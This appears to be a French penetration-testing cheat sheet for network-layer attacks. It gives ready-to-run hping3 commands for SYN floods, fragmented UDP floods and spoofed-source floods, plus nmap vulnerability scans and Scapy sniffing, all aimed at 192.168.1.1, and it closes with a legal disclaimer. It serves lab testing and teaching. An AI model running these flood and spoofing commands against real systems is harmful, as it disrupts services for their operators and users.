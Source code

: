 # Couche 3 (Réseau) – Attaques et Outils

**Version Testée :**
- Hping3 3.0.x
- Nmap 7.x
- Scapy 2.x

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Réseau du modèle OSI. La couche 3 est responsable du routage et de la transmission des paquets IP.  
Les outils présentés permettent d’effectuer des attaques de type DoS, des scans de ports, du spoofing IP et la manipulation de paquets.  

---

### Outil: Hping3
**Description :**  
Hping3 est un outil en ligne de commande de manipulation de paquets TCP/IP. Il sert notamment à tester la résistance des systèmes, mener des attaques DoS et analyser le comportement des réseaux.

#### Attaque: SYN Flood
*Détails de l'attaque :*  
Envoyer en continu des paquets SYN pour saturer la cible et perturber le fonctionnement des services.

###### Commande: Lancer SYN Flood
```bash
hping3 -S -p 80 --flood -d 1000 192.168.1.1
```
Détails :
- Port cible : 80.
- Taille du paquet : 1000 octets.
- Option `--flood` pour un envoi continu.

#### Attaque: UDP Flood avec fragmentation
*Détails de l'attaque :*  
Envoyer massivement des paquets UDP fragmentés afin de saturer la bande passante de la cible.

###### Commande: Lancer UDP Flood avec fragmentation
```bash
hping3 --udp -p 53 --frag -d 2000 --flood 192.168.1.1
```
Détails :
- Port cible : 53.
- Payload de 2000 octets.
- Fragmentation activée (`--frag`).

#### Attaque: IP Spoofing
*Détails de l'attaque :*  
Envoyer des paquets avec des adresses sources aléatoires pour masquer l’origine et compliquer la traçabilité.

###### Commande: Lancer IP Spoofing avec Hping3
```bash
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.1
```
Détails :
- Envoi de 10 000 paquets.
- Taille du paquet : 120 octets.
- Port cible : 80.
- Génération d’adresses sources aléatoires (`--rand-source`).

---

### Outil: Nmap
**Description :**  
Nmap est un scanner de réseau réputé, utilisé pour découvrir des hôtes, identifier les ports ouverts et réaliser des analyses de version et de vulnérabilités grâce à ses scripts NSE.

#### Attaque: Scan de ports rapide
*Détails de l'attaque :*  
Réaliser un scan SYN rapide pour identifier les ports ouverts sur la cible.

###### Commande: Lancer un scan SYN rapide
```bash
nmap -sS -T4 192.168.1.1
```
Détails :
- Scan SYN (`-sS`) avec timing agressif (`-T4`).

#### Attaque: Scan de vulnérabilités
*Détails de l'attaque :*  
Utiliser Nmap pour détecter des services vulnérables via ses scripts NSE.

###### Commande: Scan complet avec scripts NSE
```bash
nmap -sV --script=vuln 192.168.1.1
```
Détails :
- Détection de version (`-sV`) et utilisation des scripts de vulnérabilité (`--script=vuln`).

---

### Outil: Scapy
**Description :**  
Scapy est une bibliothèque Python interactive pour la manipulation de paquets. Elle permet de créer, modifier, envoyer et analyser des paquets IP de façon très flexible.

#### Attaque: Génération de paquets personnalisés
*Détails de l'attaque :*  
Créer et envoyer des paquets sur mesure pour tester la réaction de la cible à des scénarios spécifiques.

###### Commande: Envoyer un paquet ICMP personnalisé
```bash
python -c "from scapy.all import *; send(IP(dst='192.168.1.1')/ICMP())"
```
Détails :
- Envoi d’un paquet ICMP vers 192.168.1.1 via Scapy.

#### Attaque: Analyse du trafic réseau
*Détails de l'attaque :*  
Capturer et afficher un résumé du trafic réseau pour analyser le comportement des paquets.

###### Commande: Sniffer 10 paquets sur l'interface eth0
```bash
python -c "from scapy.all import *; sniff(iface='eth0', count=10, prn=lambda x: x.summary())"
```
Détails :
- Capture de 10 paquets sur l’interface eth0 et affichage d’un résumé.

---

## Précautions Légales & Disclaimer
**Attention :**  
L'utilisation de ces outils et commandes doit être réalisée dans un cadre légal et exclusivement en environnement de test. Toute utilisation malveillante est strictement interdite.

---

## Références & Ressources
- [Hping3 Officiel](http://www.hping.org/)
- [Nmap Official Website](https://nmap.org/)
- [Scapy Documentation](https://scapy.readthedocs.io/)
- [RFC 793 (TCP)](https://tools.ietf.org/html/rfc793)
- [RFC 791 (IP)](https://tools.ietf.org/html/rfc791)
```
